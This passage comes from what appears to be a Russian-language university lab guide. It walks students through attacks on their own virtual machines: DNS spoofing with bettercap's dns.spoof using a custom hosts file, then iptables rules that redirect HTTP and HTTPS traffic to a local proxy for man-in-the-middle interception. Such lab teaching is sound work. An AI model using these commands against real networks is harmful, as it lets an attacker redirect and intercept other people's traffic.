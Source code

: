 ![Пользователь видит старую ссылку](img/4/beef_link_rewrite_2.png)

## DNS спуфинг
1. Создать файл `hosts`: так как не требуются права `root`, сделать это можно в графическом текстовом редакторе `mousepad` или в консольных редакторах `nano` или `vim`. Записать одну строку:

    ```text
    ip XXYY.com
    ```

    Где `ip` - IP ВМ атакующего, `XXYY` - номер группы и порядковый номер студента в группе.
    Например:

    ```text
    192.168.100.194 2407.com
    ```
    Сохранить в домашнюю директорию пользователя Kali под именем `hosts`.
2. В bettercap:

    ```text
    set dns.spoof.hosts /home/kali/hosts
    dns.spoof on
    ```
3. (Проверка) В ВМ пользователя сети в терминале выполнить `dig XXYY.com`. В выводе должен быть IP адрес ВМ атакующего.

## MiTM с перешифровкой соединения
Выключить sslstrip, если он включен (некоторые прошлые пункты ЛР перестанут работать!):
```text
http.proxy off
```

Открыть новый терминал, ввести
```text
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080
```
